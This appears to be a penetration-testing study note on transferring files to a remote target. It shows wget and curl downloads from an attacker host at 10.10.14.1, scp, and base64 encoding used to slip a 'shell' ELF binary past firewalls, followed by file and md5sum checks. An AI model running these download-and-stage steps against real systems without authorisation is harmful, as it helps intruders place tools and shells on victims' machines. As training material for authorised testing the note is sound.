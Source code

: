 # Transferring Files

## Overview
File transfer is an essential part of penetration testing, often required for uploading enumeration scripts, exploits, or retrieving data from a remote server. Below are several methods to transfer files during a penetration test.

---

## Methods of Transferring Files

### 1. Using `wget`
#### Steps:
1. Start a Python HTTP server on your attack host in the directory containing the file to transfer:
   ```bash
   python3 -m http.server 8000
   ```
2. Download the file on the remote server using `wget`:
   ```bash
   wget http://<YOUR_IP>:8000/<FILENAME>
   ```

#### Example:
```bash
wget http://10.10.14.1:8000/linenum.sh
```

### 2. Using `curl`
#### Steps:
1. Use `curl` as an alternative to `wget`:
   ```bash
   curl http://<YOUR_IP>:8000/<FILENAME> -o <OUTPUT_FILENAME>
   ```

#### Example:
```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

---

### 3. Using SCP
#### Prerequisites:
- SSH access to the remote host.

#### Steps:
1. Transfer the file using `scp`:
   ```bash
   scp <LOCAL_FILE> <USER>@<REMOTE_HOST>:<REMOTE_DIRECTORY>
   ```

#### Example:
```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

---

### 4. Using Base64 Encoding
#### Use Case:
When direct file transfer is blocked (e.g., firewalls).

#### Steps:
1. Base64 encode the file on your machine:
   ```bash
   base64 <FILENAME> -w 0
   ```
2. Copy the encoded string to the remote host.
3. Decode the string on the remote host and save it to a file:
   ```bash
   echo <BASE64_STRING> | base64 -d > <OUTPUT_FILE>
   ```

#### Example:
1. Encode:
   ```bash
   base64 shell -w 0
   ```
2. Decode on the remote host:
   ```bash
   echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... | base64 -d > shell
   ```

---

## Validating File Transfers

### 1. Check File Type
Run the `file` command to validate the file type:
```bash
file <FILENAME>
```

#### Example:
```bash
file shell
# Output: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked
```

### 2. Verify Integrity with `md5sum`
#### Steps:
1. Generate an MD5 hash of the file on your machine:
   ```bash
   md5sum <FILENAME>
   ```
2. Generate an MD5 hash of the transferred file on the remote host:
   ```bash
   md5sum <FILENAME>
   ```
3. Compare the hashes to ensure the file transferred correctly.

#### Example:
1. Local machine:
   ```bash
   md5sum shell
   # Output: 321de1d7e7c3735838890a72c9ae7d1d shell
   ```
2. Remote host:
   ```bash
   md5sum shell
   # Output: 321de1d7e7c3735838890a72c9ae7d1d shell
   ```

---

## Additional Resources
- For more methods and details, refer to the File Transfers module.
